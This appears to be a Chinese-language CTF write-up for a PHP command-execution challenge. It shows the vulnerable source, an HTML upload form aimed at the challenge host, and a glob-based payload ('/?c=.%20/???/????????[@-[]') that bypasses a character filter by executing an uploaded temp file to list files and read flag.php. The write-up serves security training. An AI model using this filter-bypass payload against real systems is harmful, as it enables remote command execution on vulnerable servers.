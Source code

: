 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

字母

数字

$

(

{

'

"

`

%

\x09即tab制表符

\x26即&符号

\>

\<





命令执行



同上一题

构造post上传文件数据包

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

上传文件，然后抓包

修改数据包





```
/?c=.%20/???/????????[@-[]
```

```
#!/bin/bash
ls
```

![image-20250404130056879](./assets/image-20250404130056879.png)



读取flag

```
/?c=.%20/???/????????[@-[] 
```

```
#!/bin/bash
tac flag.php
```



![image-20250404130122588](./assets/image-20250404130122588.png)